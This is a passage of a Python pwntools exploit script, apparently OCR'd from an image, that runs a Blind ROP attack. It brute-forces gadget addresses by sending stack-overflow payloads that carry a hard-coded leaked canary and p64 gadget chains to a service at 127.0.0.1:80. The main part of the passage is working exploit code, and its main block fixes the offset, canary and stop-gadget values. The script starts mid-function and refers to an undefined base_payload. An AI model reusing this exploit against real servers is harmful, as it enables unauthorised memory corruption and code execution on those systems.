```python
    s.send(base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget+2) + p64(1) * 6 + p64(stop_gadget) * (depth - 7))
    try:
        checkstr = s.recv(timeout=0.5)
        s.close()
        log.info("checking1 out :0x%x", useful_gadget)
        sleep(2)
        return 0
    except:
        s.close()
        log.info("checking1 pass :0x%x", useful_gadget)
        return 1



def check_pop_ret2(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget):
    useful_gadget = useful_gadget + 1
    s = connect("127.0.0.1", 80)
    s.send(base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget+9) + p64(1)  + p64(stop_gadget) * (depth - 2))
    try:
        checkstr = s.recv(timeout=0.5)
        s.close()
        log.info("checking2 out :0x%x", useful_gadget)
        sleep(2)
        return 0
    except:
        s.close()
        log.info("checking2 pass :0x%x", useful_gadget)
        return 1

def get_useful_gadget(canary_offset, canary, buf_size, stop_gadget, depth, start_addr=0x400000):
    useful_gadget = start_addr
    while 1:
        useful_gadget = useful_gadget + 1
        s = connect("127.0.0.1", 80)
        s.send(base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget) + p64(1) * 6 + p64(stop_gadget) * (depth - 7))
        try:
            checkstr = s.recv(timeout=0.5)
            s.close()
            log.info("find useful_gadget 0x%x checking", useful_gadget)
            sleep(2)
            checking1 = check_pop_ret1(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget)
            checking2 = check_pop_ret2(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget)
            if checking1==1 and checking2==1:
                log.info("find True useful_gadget 0x%x", useful_gadget)
                sleep(2)
                return useful_gadget
            else:
                log.info("useful_gadget not 0x%x", useful_gadget)
        except:
            s.close()
            log.info("useful_gadget not 0x%x", useful_gadget)

if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x2d\x8a\x57\xe7\x59\xcc\x69"
    buf_size = 24
    stop_gadget = 0x402580
    depth = 44
```